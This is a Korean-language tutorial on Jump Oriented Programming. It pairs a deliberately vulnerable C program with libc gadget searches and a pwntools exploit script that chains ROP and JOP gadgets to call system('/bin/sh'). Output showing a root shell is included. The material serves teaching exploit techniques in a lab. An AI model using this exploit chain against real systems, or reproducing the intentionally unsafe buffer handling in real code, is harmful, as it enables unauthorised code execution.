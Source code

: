 # **Jump Oriented Programming**

JOP는 JMP 명령을 사용해 프로그램 흐름을 제어하는 Exploit 기술이다.  
JOP Gadget은 "Exploit에 필요한 Code + JMP 명령어"이다.  
JOP는 여러개의 Gadget들을 실행시키기 위해 별도의 Gadget과 구조가 필요하다. 

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o jop jop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
  
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```

72개 이상의 문자를 입력하면 Return Address를 덮어쓸 수 있다.

```
gdb-peda$ x/24gx $rbp
0x7fffffffe3b0:	0x4141414141414141	0x000000000040070a
```

#### **Exploit Method**
1. ROP Gadget을 이용하여 rax에 system() 함수 주소 저장
1. JOP Gadget을 이용하여 RDI 레지스터에 "/bin/sh" 저장 후 "jmp rax" 명령어로 system() 함수 호출

#### **Find Gadget**

```
root@bs-virtual-machine:~/pwnable/jop# rp-lin-x64 -f /lib/x86_64-linux-gnu/libc-2.23.so -r 1 | grep "pop rax ; ret"
0x00033544: pop rax ; ret  ;  (1 found)
0x0003a727: pop rax ; ret  ;  (1 found)
0x0003a728: pop rax ; ret  ;  (1 found)
0x0003a7f7: pop rax ; ret  ;  (1 found)
0x0003a7f8: pop rax ; ret  ;  (1 found)
0x0003a8a0: pop rax ; ret  ;  (1 found)
0x0003a8a1: pop rax ; ret  ;  (1 found)
0x000abc07: pop rax ; ret  ;  (1 found)
0x00106272: pop rax ; ret  ;  (1 found)
0x00106273: pop rax ; ret  ;  (1 found)
0x001a1448: pop rax ; ret  ;  (1 found)
0x000caabc: pop rax ; retn 0x002F ;  (1 found)

root@bs-virtual-machine:~/pwnable/jop# rp-lin-x64 -f /lib/x86_64-linux-gnu/libc-2.23.so -r 2 | grep "pop rdi ; jmp rax"
0x00104052: pop rdi ; jmp rax ;  (1 found)
```

## **Exploit Code**
```python
from pwn import *

p = process('./jop')
p.recvline()
printf_addr = int(p.recvline().split(' ')[3],16)
libBase = printf_addr - 0x55800
system_addr = libBase + 0x45390
binsh_addr = libBase + 0x18cd57
pop_rax_ret = libBase + 0x33544
pop_rdi_jmp_rax = libBase + 0x104052

print('printf_addr: '+str(hex(printf_addr)))
print('libBase_addr: '+str(hex(libBase)))
print('system_addr: '+str(hex(system_addr)))
print('/bin/sh_addr: '+str(hex(binsh_addr)))
print('pop rax ; ret Gadget: '+str(hex(pop_rax_ret)))
print('pop rdi ; jmp rax Gadget: '+str(hex(pop_rdi_jmp_rax)))

payload = 'A'*72
payload += p64(pop_rax_ret)
payload += p64(system_addr)
payload += p64(pop_rdi_jmp_rax)
payload += p64(binsh_addr)


p.send(payload)
p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/jop# python exploit.py 
[+] Starting local process './jop': pid 2257
printf_addr: 0x7fc07b8a5800
libBase_addr: 0x7fc07b850000
system_addr: 0x7fc07b895390
/bin/sh_addr: 0x7fc07b9dcd57
pop rax ; ret Gadget: 0x7fc07b883544
pop rdi ; jmp rax Gadget: 0x7fc07b954052
[*] Switching to interactive mode
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/jop
```

**References**  
<https://www.lazenca.net/pages/viewpage.action?pageId=16810290>
